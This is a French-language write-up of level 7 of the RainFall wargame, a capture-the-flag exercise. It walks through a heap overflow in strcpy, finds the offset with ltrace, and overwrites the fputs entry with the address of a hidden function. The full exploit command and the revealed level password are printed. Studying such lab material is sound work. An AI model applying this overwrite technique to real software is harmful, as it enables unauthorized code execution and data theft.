 ﻿Ici on a un programme qui appelle quatre fois `malloc` pour allouer 8 bytes.
Ils sont groupes deux par deux de la meme facon:
1. `void *x = malloc(8)`
2. `x[0] = 0x1 (ou 0x2 dans le 2e cas)`
3. `x[1] = malloc(8)`

Ensuite plus loin il y a deux strcpy.
Le premier copie `argv[1]` dans `x1[1]`
Le deuxieme copie `argv[2]` dans `x2[1]`

On va pouvoir overflow le premier strcpy dans le deuxieme strcpy.
Pour trouver l'offset j'ai test avec ltrace quelque chose comme ca:
```bash
level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ BBBB
__libc_start_main(0x8048521, 3, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                                                                                     = 0x0804a008
malloc(8)                                                                                                                                                                     = 0x0804a018
malloc(8)                                                                                                                                                                     = 0x0804a028
malloc(8)                                                                                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"...)                                                                                                                     = 0x0804a018
strcpy(0x46464646, "BBBB" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
On voit que le deuxieme strcpy commence a copier dans l'addresse `0x46464646` = FFFF en ascii.
Donc l'offset est de `20`.

Encore plus loin, on voit un `fopen` qui ouvre le .pass du level suivant,  
suivi d'un `fgets` qui lit le fichier et enfin d'un `fputs` mais dont l'appel est incorrect (il manque un argument)

Aussi on voit une fonction `m` qui n'est jamais appelee.
Cette fonction affiche le contenu de l'addresse memoire ou se trouve le mot de passe.

On va donc vouloir appeler la fonction `m` a la place de `fputs` pour obtenir le mot de passe.

Dans le `.plt` je vois que l'addresse de `fputs` est `0x08049928`  
D'autre part je vois que celle de `m` est `0x080484f4`.

Ainsi on peut definir notre exploit:

arg1: `python -c "print 'A'*20 + '\x28\x99\x04\x08'"`
arg2: `python -c "print '\xf4\x84\x04\x08'"`

```bash
level7@RainFall:~$ ./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1726512326
```